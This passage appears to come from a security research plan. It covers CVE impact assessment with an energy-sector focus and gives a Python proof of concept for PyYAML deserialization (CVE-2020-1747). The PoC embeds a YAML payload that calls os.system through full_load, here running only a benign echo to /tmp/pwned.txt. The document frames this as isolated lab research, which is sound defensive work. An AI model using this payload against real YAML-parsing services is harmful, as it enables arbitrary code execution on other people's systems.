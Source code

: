 #### **Step 3: Impact Assessment**

For each CVE, document:
1. **Attack Vector**: Network/Local/Physical
2. **Exploitation Prerequisites**: User interaction? Privileged access?
3. **Potential Impact**: Data exfiltration? System compromise? DoS?
4. **Energy Sector Relevance**: Does this affect grid operations? Energy modeling?

---

### **Phase 3: Proof-of-Concept Development** (Week 4-5)

#### **Example 1: PyYAML Deserialization (CVE-2020-1747)**

**Research Question**: Can arbitrary code execution be triggered via YAML parsing?

```python
# File: poc_pyyaml_rce.py
"""
PoC for PyYAML Arbitrary Code Execution
CVE-2020-1747 - Affected versions: < 5.4

ONLY run in isolated environment!
"""

import yaml
import os

# VULNERABLE CODE (demonstrating the issue)
def vulnerable_yaml_parse(yaml_input):
    """
    WARNING: This demonstrates the vulnerability
    DO NOT use in production code
    """
    # Using full_load (vulnerable in PyYAML < 5.4)
    data = yaml.full_load(yaml_input)
    return data

# Malicious YAML payload
malicious_yaml = """
!!python/object/new:os.system
args: ['echo "Code executed!" > /tmp/pwned.txt']
"""

# Test in isolated environment
if __name__ == '__main__':
    print("[*] Testing PyYAML deserialization vulnerability")
    print("[*] CVE-2020-1747")
    print("[*] Running in isolated lab environment...")

    # Execute (ONLY in isolated container!)
    try:
        vulnerable_yaml_parse(malicious_yaml)

        # Check if code executed
        if os.path.exists('/tmp/pwned.txt'):
            print("[!] VULNERABLE: Arbitrary code execution successful")
            with open('/tmp/pwned.txt') as f:
                print(f"[!] Output: {f.read()}")
        else:
            print("[+] Not vulnerable or execution blocked")

    except Exception as e:
        print(f"[+] Exception occurred: {e}")

```